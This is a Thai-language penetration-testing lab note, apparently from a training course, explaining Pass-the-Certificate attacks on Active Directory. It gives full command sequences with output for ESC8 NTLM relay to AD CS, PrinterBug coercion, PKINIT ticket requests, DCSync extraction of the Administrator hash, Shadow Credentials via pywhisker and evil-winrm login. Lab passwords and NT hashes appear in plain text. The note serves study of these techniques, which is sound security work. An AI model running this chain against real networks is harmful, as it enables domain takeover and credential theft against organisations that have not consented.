


# Pass the Certificate

## ภาพรวม

**PKINIT** (Public Key Cryptography for Initial Authentication) เป็นส่วนขยายของโปรโตคอล Kerberos ที่ช่วยให้สามารถใช้ Public Key Cryptography ในการยืนยันตัวตนครั้งแรกได้ มักใช้กับการล็อกอินผ่าน Smart Card ซึ่งเก็บ Private Key ไว้

**วิธีการทำงานของ PKINIT:**

1. **Client มีใบรับรอง X.509 และ private key**
2. เมื่อต้องการ TGT, client จะส่ง **AS-REQ** ที่มี:
   - ใบรับรอง (certificate) ของตัวเอง
   - ข้อมูลที่ **เซ็นด้วย private key** ของ client (digital signature)
   - Pre-authentication data ที่เข้ารหัสไว้

3. **KDC ตรวจสอบ**:
   - ความถูกต้องของใบรับรอง (ตรวจสอบว่าออกโดย CA ที่เชื่อถือ)
   - ยืนยัน **digital signature โดยใช้ public key** จากใบรับรอง
   - ตรวจสอบว่าใบรับรองยังไม่หมดอายุและไม่ถูก revoke

4. ถ้าทุกอย่างถูกต้อง KDC จะเข้ารหัส TGT และส่งกลับมาใน **AS-REP**


**Pass-the-Certificate** คือเทคนิคการใช้ X.509 Certificate เพื่อขอ Ticket Granting Tickets (TGTs) ได้สำเร็จ โดยมักใช้ร่วมกับการโจมตี:
- Active Directory Certificate Services (AD CS)
- Shadow Credential attacks

**AD CS (Active Directory Certificate Services)** คือบทบาท (role) ของ Windows Server ที่ทำหน้าที่เป็น **Certificate Authority (CA)** ในสภาพแวดล้อม Active Directory

**หน้าที่หลัก:**

AD CS ใช้สำหรับ:
- **ออกใบรับรอง (issue certificates)** ให้กับ users, computers, และ services
- **จัดการวงจรชีวิตของใบรับรอง** (renewal, revocation)
- สนับสนุน **PKI (Public Key Infrastructure)** ภายในองค์กร
- รองรับการทำงานของ PKINIT, Smart Card authentication, SSL/TLS, Code Signing, Email encryption (S/MIME)

**ส่วนประกอบสำคัญ:**

1. **Certificate Authority (CA)** - ออกและจัดการใบรับรอง
2. **Certificate Templates** - แม่แบบกำหนดการใช้งานและคุณสมบัติของใบรับรอง
3. **Certificate Enrollment** - กระบวนการขอและได้รับใบรับรอง
4. **Certificate Revocation List (CRL)** - รายการใบรับรองที่ถูกเพิกถอน

**ความสำคัญใน Pentesting:**

AD CS เป็นเป้าหมายที่น่าสนใจมากเพราะมีช่องโหว่หลายแบบ:

**ESC1-ESC8** - ช่องโหว่ที่พบใน AD CS:
- **ESC1**: Misconfigured Certificate Templates ที่อนุญาตให้ระบุ Subject Alternative Name (SAN) ได้เอง
- **ESC2**: Templates ที่อนุญาตให้ใช้ใบรับรองสำหรับ authentication โดยไม่จำกัด
- **ESC3**: Enrollment Agent Templates ที่ถูกใช้ในทางที่ผิด
- **ESC4**: การตั้งค่า ACL บน Certificate Templates ที่อ่อนแอ
- **ESC6**: EDITF_ATTRIBUTESUBJECTALTNAME2 flag ที่เปิดอยู่
- **ESC7**: สิทธิ์การจัดการ CA ที่ไม่เหมาะสม
- **ESC8**: NTLM Relay to AD CS HTTP Endpoints


---


## AD CS NTLM Relay Attack (ESC8)

### ภาพรวมของ ESC8

ESC8 คือการโจมตีแบบ NTLM Relay ที่กำหนดเป้าหมายไปที่ ADCS HTTP endpoint โดย ADCS รองรับหลายวิธีในการขอใบรับรอง รวมถึง **Web Enrollment** ซึ่งโดยค่าเริ่มต้นทำงานผ่าน HTTP

Certificate Authority ที่เปิดใช้งาน Web Enrollment จะโฮสต์แอปพลิเคชันที่ `/CertSrv`



### ขั้นตอนการโจมตี

## Attack Flow:

```
1. Attacker รัน ntlmrelayx และรอรับ NTLM authentication
   ↓
2. Victim เชื่อมต่อมายัง attacker (เช่นผ่าน SMB)
   ↓
3. ntlmrelayx รับ NTLM authentication ของ victim
   ↓
4. Relay authentication ไปยัง AD CS web enrollment
   ↓
5. ขอใบรับรองจาก template "KerberosAuthentication" ในนาม victim
   ↓
6. AD CS ออกใบรับรองให้ (เพราะคิดว่าเป็น victim ที่ร้องขอจริง)
   ↓
7. Attacker ได้ certificate + private key ของ victim
   ↓
8. ใช้ certificate นี้ทำ PKINIT เพื่อขอ TGT ของ victim
```


#### 1. ตั้งค่า ntlmrelayx เพื่อรอรับการเชื่อมต่อ

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp \
  --adcs -smb2support --template KerberosAuthentication
```

**พารามิเตอร์:**

**`-t http://10.129.234.110/certsrv/certfnsh.asp`**
- Target คือ AD CS Web Enrollment endpoint
- `/certsrv/` เป็น web interface ของ Certificate Services
- `certfnsh.asp` เป็นหน้าที่จัดการการออกใบรับรอง

**`--adcs`**
- เปิดโหมดโจมตี AD CS โดยเฉพาะ
- ntlmrelayx จะ request ใบรับรองให้อัตโนมัติ

**`-smb2support`**
- รองรับ SMB2/SMB3 protocol
- ใช้สำหรับรับ NTLM authentication จาก SMB

**`--template KerberosAuthentication`**
- ระบุว่าจะขอใบรับรองจาก template ชื่อ "KerberosAuthentication"
- Template นี้ใช้สำหรับ PKINIT authentication
- `--template`: Certificate template ที่ใช้โดย Domain Controllers (สามารถ enumerate ได้ด้วย certipy)

คำสั่งนี้เป็นการทำ **NTLM Relay Attack ไปยัง AD CS** เพื่อขอใบรับรองมาแบบไม่ได้รับอนุญาต (ESC8 vulnerability)


#### 2. บังคับให้เหยื่อทำการ Authenticate (Coercion)

**วิธีที่ 1: รอให้เหยื่อเชื่อมต่อมาเอง**

**วิธีที่ 2: ใช้ Printer Bug บังคับให้ Machine Account เชื่อมต่อ**

```bash
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12
```

**คำอธิบาย:**
- เป้าหมาย: `10.129.234.109` (DC01)
- โฮสต์ผู้โจมตี: `10.10.16.12`
- ต้องการให้ Printer Spooler service ทำงานอยู่บนเครื่องเป้าหมาย

**ผลลัพธ์:**
```
[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE
[*] Triggered RPC backconnect, this may or may not have worked
```

#### 3. ตรวจสอบผลลัพธ์จาก ntlmrelayx

```
[*] SMBD-Thread-5: Received connection from 10.129.234.109
[*] Authenticating against http://10.129.234.110 as INLANEFREIGHT/DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 8
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

✅ **สำเร็จ:** ได้ Certificate สำหรับ `DC01$` แล้ว

---

## การทำ Pass-the-Certificate เพื่อขอ TGT

### การติดตั้ง PKINITtools

```bash
# Clone repository
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools

# สร้าง virtual environment
python3 -m venv .venv
source .venv/bin/activate

# ติดตั้ง dependencies
pip3 install -r requirements.txt
```

### แก้ไขปัญหา libcrypto (ถ้ามี)

```bash
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### ขอ TGT ด้วย gettgtpkinit.py

```bash
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$'  /tmp/dc.ccache
```

**ผลลัพธ์:**
```
2025-04-28 21:20:40,073 minikerberos INFO     Loading certificate and key from file
2025-04-28 21:20:40,351 minikerberos INFO     Requesting TGT
2025-04-28 21:21:05,508 minikerberos INFO     AS-REP encryption key (you might need this later):
2025-04-28 21:21:05,508 minikerberos INFO     3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
2025-04-28 21:21:05,512 minikerberos INFO     Saved TGT to file
```

### ทำ DCSync Attack

เมื่อได้ TGT ของ Domain Controller แล้ว เราสามารถทำ DCSync เพื่อดึง NTLM hash ของ Administrator:

```bash
# Set Kerberos ticket
export KRB5CCNAME=/tmp/dc.ccache

# ทำ DCSync
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```

**ผลลัพธ์:**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...SNIP...:::
```

---

## Shadow Credentials (msDS-KeyCredentialLink)

### ภาพรวม

Shadow Credentials เป็นการโจมตี Active Directory ที่ใช้ช่องโหว่ของ attribute `msDS-KeyCredentialLink` ของผู้ใช้เป้าหมาย

**Attribute นี้:**
- เก็บ Public Keys สำหรับการยืนยันตัวตนผ่าน PKINIT
- ถ้าเรามีสิทธิ์เขียน (Write) attribute นี้ของผู้ใช้คนอื่น เราสามารถยึดควบคุมบัญชีนั้นได้

### การค้นหาช่องโหว่ใน BloodHound

ใน BloodHound มอง edge ชื่อ **AddKeyCredentialLink** ซึ่งแสดงว่าผู้ใช้คนหนึ่งมีสิทธิ์เขียน msDS-KeyCredentialLink ของอีกคนหนึ่ง

**ตัวอย่าง:**
```
wwhite@inlanefreight.local --[AddKeyCredentialLink]--> jpinkman@inlanefreight.local
```

### การโจมตีด้วย pywhisker

#### 1. เพิ่ม Public Key ลงใน msDS-KeyCredentialLink

```bash
pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
```

**ผลลัพธ์:**
```
[*] Searching for the target account
[*] Target user found: CN=Jesse Pinkman,CN=Users,DC=inlanefreight,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3496da7f-ab0d-13e0-1273-5abca66f901d
[*] Updating the msDS-KeyCredentialLink attribute of jpinkman
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: eFUVVTPf.pfx
[+] PFX exportiert nach: eFUVVTPf.pfx
[i] Passwort für PFX: bmRH4LK7UwPrAOfvIx6W
[+] Saved PFX (#PKCS12) certificate & key at path: eFUVVTPf.pfx
[*] Must be used with password: bmRH4LK7UwPrAOfvIx6W
```

**ได้:**
- PFX file: `eFUVVTPf.pfx`
- Password: `bmRH4LK7UwPrAOfvIx6W`

#### 2. ขอ TGT ในนาม jpinkman

```bash
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
```

**ผลลัพธ์:**
```
2025-04-28 20:50:04,728 minikerberos INFO     Loading certificate and key from file
2025-04-28 20:50:04,775 minikerberos INFO     Requesting TGT
2025-04-28 20:50:04,929 minikerberos INFO     AS-REP encryption key (you might need this later):
2025-04-28 20:50:04,929 minikerberos INFO     f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
2025-04-28 20:50:04,937 minikerberos INFO     Saved TGT to file
```

#### 3. ใช้ TGT เพื่อเข้าถึงระบบ

```bash
# Set Kerberos ticket
export KRB5CCNAME=/tmp/jpinkman.ccache

# ตรวจสอบ ticket
klist
```

**ผลลัพธ์:**
```
Ticket cache: FILE:/tmp/jpinkman.ccache
Default principal: jpinkman@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/28/2025 20:50:04  04/29/2025 06:50:04  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

#### 4. เชื่อมต่อผ่าน WinRM

ถ้าผู้ใช้เป็นสมาชิกของ Remote Management Users group:

```bash
evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```

**ผลลัพธ์:**
```
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jpinkman\Documents> whoami
inlanefreight\jpinkman
```

---

## กรณีที่ไม่มี PKINIT Support

### ปัญหา

ในบางสภาพแวดล้อม attacker อาจได้ Certificate แต่ไม่สามารถใช้สำหรับ Pre-authentication ได้ เพราะ:
- KDC ไม่รองรับ EKU (Extended Key Usage) ที่เหมาะสม
- ข้อจำกัดของ Domain Controller machine account

### วิธีแก้: ใช้ PassTheCert

**PassTheCert** เป็นเครื่องมือที่:
- ใช้ Certificate เพื่อยืนยันตัวตนกับ LDAPS
- ทำการโจมตีหลายรูปแบบ:
  - เปลี่ยนรหัสผ่าน
  - ให้สิทธิ์ DCSync
  - และอื่นๆ

**อ่านเพิ่มเติม:** [PassTheCert Documentation](https://github.com/AlmondOffSec/PassTheCert)

---

## สรุป

### เทคนิค Pass-the-Certificate ประกอบด้วย:

#### 1. **ESC8 - AD CS NTLM Relay**
- Relay NTLM authentication ไปยัง ADCS web enrollment
- ได้ Certificate ของ Machine Account
- ใช้ Certificate ขอ TGT
- ทำ DCSync attack

#### 2. **Shadow Credentials**
- ใช้สิทธิ์ AddKeyCredentialLink
- เพิ่ม Public Key ลงใน msDS-KeyCredentialLink
- ได้ Certificate
- ขอ TGT และยึดครองบัญชีผู้ใช้

#### 3. **PassTheCert (สำหรับกรณีพิเศษ)**
- ใช้เมื่อ PKINIT ไม่ได้
- Authenticate ผ่าน LDAPS ด้วย Certificate
- ทำการโจมตีผ่าน LDAP

### เครื่องมือที่ใช้:
- `impacket-ntlmrelayx` - NTLM relay
- `printerbug.py` - Coerce authentication
- `gettgtpkinit.py` - ขอ TGT ด้วย Certificate
- `pywhisker` - Shadow Credentials attack
- `evil-winrm` - Remote access via WinRM

### ข้อควรระวัง:
- ต้องมี Write permission บน msDS-KeyCredentialLink
- ต้องการ Certificate template ที่ถูกต้อง
- KDC ต้องรองรับ PKINIT (สำหรับบางเทคนิค)
- ต้องตั้งค่า krb5.conf อย่างถูกต้อง

---

**หัวข้อต่อไป:** Password Management - การจัดการรหัสผ่านในองค์กร


```
┌──(kali㉿kali)-[~/PKINITtools]
└─$ impacket-ntlmrelayx -t http://10.129.234.172/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.234.174, attacking target http://10.129.234.172
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.129.234.172 as INLANEFREIGHT/DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.234.174, attacking target http://10.129.234.172
[-] Authenticating against http://10.129.234.172 as / FAILED
[*] GOT CERTIFICATE! ID 13
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file


┌──(kali㉿kali)-[~/krbrelayx-master]
└─$ python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.174 10.10.15.67

┌──(kali㉿kali)-[~/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx DC01\$.pfx -dc-ip 10.129.234.172 'inlanefreight.local/dc01$' /tmp/dc.ccache

┌──(kali㉿kali)-[~/PKINITtools]
└─$ export KRB5CCNAME=/tmp/dc.ccache

┌──(kali㉿kali)-[~/PKINITtools]
└─$ klist
Ticket cache: FILE:/tmp/dc.ccache
Default principal: dc01$@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
11/17/2025 23:41:20  11/18/2025 09:41:20  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
11/17/2025 23:51:37  11/18/2025 09:41:20  HTTP/dc01.inlanefreight.local@INLANEFREIGHT.LOCAL
                                                                                                                       
┌──(kali㉿kali)-[~/PKINITtools]
└─$ cat /etc/krb5.conf
[libdefaults]
default_realm = INLANEFREIGHT.LOCAL
dns_lookup_realm = true
dns_lookup_kdc = true
ticket_lifetime = 24h
forwardable = true

[realms]
INLANEFREIGHT.LOCAL = {
    kdc = dc01.inlanefreight.local
    admin_server = dc01.inlanefreight.local
}

```





```
┌──(kali㉿kali)-[~/krbrelayx-master]
└─$ evil-winrm -i 10.129.234.174 -u jpinkman -H 9d995e5865f9dbfc701210466f0c78fe   

┌──(kali㉿kali)-[~/krbrelayx-master]
└─$ evil-winrm -i 10.129.234.174 -u Administrator  -H fd02e525dd676fd8ca04e200d265f20c    
```